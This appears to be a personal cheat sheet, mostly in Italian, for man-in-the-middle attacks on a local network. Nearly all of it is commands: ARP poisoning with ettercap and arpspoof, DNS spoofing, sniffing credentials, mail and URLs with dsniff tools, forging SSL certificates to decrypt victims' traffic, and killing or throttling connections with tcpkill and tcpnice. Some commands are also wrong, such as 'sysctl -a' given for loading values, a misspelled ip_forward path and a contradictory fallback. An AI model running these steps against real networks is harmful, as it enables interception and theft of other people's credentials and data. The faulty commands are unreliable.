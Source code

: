 
-  man in the middle(mitm) sniffing


## sysctl

To displays all the output(parameters):
`sysctl -a`

To do changes with the appropriate command:
`sudo sysctl -w parameter=value`

For example:
`sudo sysctl -w net.ipv4.ip_forward=1`

To load the value into kernel and become live:
`sysctl -a`





## ettercap - mitm

Non c'è bisogno di abilitare l'inoltro ip ma basta semplicemente eseguire il comando
dopo la config di /etc/etter.conf

`sudo ettercap -Tqi wlan0 -M arp:remote /VICTIM/ /GW/`

ATTENZIONE: Non provare SSL utilizando il bridged mode in quanto non funziona.
ATTENZIONE: Non usare ip_forward=1 in quanto si rischierebbe di inviare duplicati(Vedere la descrizione di man ettercap per ulterior dettagli).
ATTENZIONE: Assicurarsi di avere installato iptables altrimenti non funzionerebbe il forward.

To check if ARP poison is working well try:
`arp -a`



## ettercap - dns_spoof

Modifica il file /usr/share/ettercap/etter.dns inserendo una regola del tipo:
* A 127.0.0.1 per inoltrare tutti i dns al localhost
Attivare il plugin dns_spoof


## ettercap - remote_browser

Serve per conoscere le pagine visitate dall'utente.
Specificare il browser da usare su /etc/etter.conf



## man in the middle (mitm)

Per abilitare l'inoltro dei pacchetti fare in questo modo (da non utilizzare con il comando fragrouter):
`echo 1 > /proc/sys/net/ipv4/ip-forward`

Se non funziona provare:
`sudo sysctl -w net.ipv4.ip_forward=0`


La prima operazione da fare è il comando arpspoof. Consideriamo i seguenti IP: IP_VICTIM è l'IP della vittima e IP_SERVER.
I comandi da eseguire sono:
`arpspoof -t IP_VICTIM IP_SERVER`
 e 
`arpspoof -t IP_SERVER IP_VICTIM`


La successiva operazione è fare in modo che il mitm possa inoltrare effettivamente i pacchetti in transito:
`fragrouter -B1`




## sniffing

Questa è un operazione che va fatta una volta che il pc è in mitm!!
Il comando capace di sniffare user e pass di moltissimi protocolli è:
`dsniff -i eth0 -md`

L'opzione -m consente il controllo automatico dei protocolli e -d è il debugging mode.
Un'altro comando che spesso viene adoperato è:
`ngrep host IP`

Dove IP è l'indirizzo IP della vittima.

Gli comandi di sniffing sono:
Sniffa mail e li pone in output ben formattati:
`mailsnarf`

Sniffa URL:
`urlsnarf`

Sniffa messaggi su IRC, MSN etc:
`msgsnarf`

Sniffa file su NFS:
`filesnarf`

Manda gli URL sniffati al proprio browser locale:
`webspy`




## SSL mitm

Questa è un operazione che va fatta una volta che il pc è in mitm!!
Questa procedura consente di ottenere falsificare i certificati che vengono trasmessi via HTTP, POP, SMTP o qualunque altro protocollo che si poggia sul SSL.
La prima operazione è redirezionare il traffico HTTP/HTTPS tramite:
`dnsspoof`

Successivamente occorre falsificare il certificato tramite il comando:
`webmitm`

A questo punto il comando webmitm restituirà il falso certificato (webmitm.crt) che potrà essere utilizzato per decifrare il traffico SSL sniffato tramite wireshark (ethereal) e posto in un file.
Quindi:
`ssldump -r ozzy -k webmitm.crt -d > outozzy`

con -r specifichiamo il dumpfile, -k è la chiave, -d indica di decifrare i dati
Rimane solo da interpretare i dati ormai decifrati:
`cat outozzy | grep ??`

In grep si può mettere qualcosa che possa filtrare i dati in modo da ottenere più facilmente i dati sensibili. Per esempio si può inserire il nome di qualche tag html vicino ai dati sensibili.




## kill and slow down connection with tcpkill and tcpnice

Se vogliamo chiudere le connessioni TCP su porta 22 (SSH):
`tcpkill -i eth0 tcp port 22`

If you want to kill all the connections but not for a pecified host:
`sudo tcpkill -i wlan0 -9 not host 192.168.1.109`

Se vogliamo rallentare una connessione TCP iniettando pacchetti che avvisano di una finestra di ricezione piccola o pacchetti ICMP:
`tcpnice -i eth0 tcp port 22`

To slow down all the connection but not for a specified host:
`sudo tcpnice -i wlan0 not host 192.168.1.109`




